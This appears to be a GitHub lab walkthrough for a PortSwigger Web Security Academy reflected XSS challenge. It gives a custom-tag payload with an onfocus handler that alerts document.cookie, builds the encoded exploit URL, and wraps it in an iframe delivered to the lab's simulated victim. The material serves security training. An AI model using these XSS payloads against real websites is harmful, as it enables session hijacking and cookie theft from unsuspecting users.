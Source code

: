 ## Question:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/82372c8d-9c1b-439a-8907-26476763643c)

## Solution:

For this first we will give this Payload to web application.

`<cyber tabindex="1"onfocus="alert(document.cookie)"id="a1">`

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/e1eb66dd-040d-41f9-a039-b75ab4b01bc9)

Result-Payload incerted in web application.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/55c1eaff-59e2-4729-93a4-a9b62e0af0a0)

For triger the alert we need type the `id` in the url using `#a1`. It will trigger an alert

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/9152f461-3401-490f-ad37-e65eb033ccee)

we need to automatically alerts document.cookie.For that our exploit url is ready. `https://0a3d00b003ba63a580c1057700e60003.web-security-academy.net/?search=%3Ccyber+tabindex%3D%221%22onfocus%3D%22alert%28document.cookie%29%22id%3D%22a1%22%3E#a1`. we need to send it inside iframe

Payload will be like

`<iframe src="exploit url"></iframe>`

Now go to exploit server and give the Payload.

```
<iframe src="https://0a3d00b003ba63a580c1057700e60003.web-security-academy.net/?search=%3Ccyber+tabindex%3D%221%22onfocus%3D%22alert%28document.cookie%29%22id%3D%22a1%22%3E#a1"></iframe>
```

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/fb10547a-d26f-4977-9d8c-982123686301)

Then View exploit.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/483c8d70-9974-472b-9be9-e942c8be842c)

Then press DELIVER it to VICTIM. lab will be solved.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/af911d31-f6bd-4a58-bdf9-c47a60b05b46)

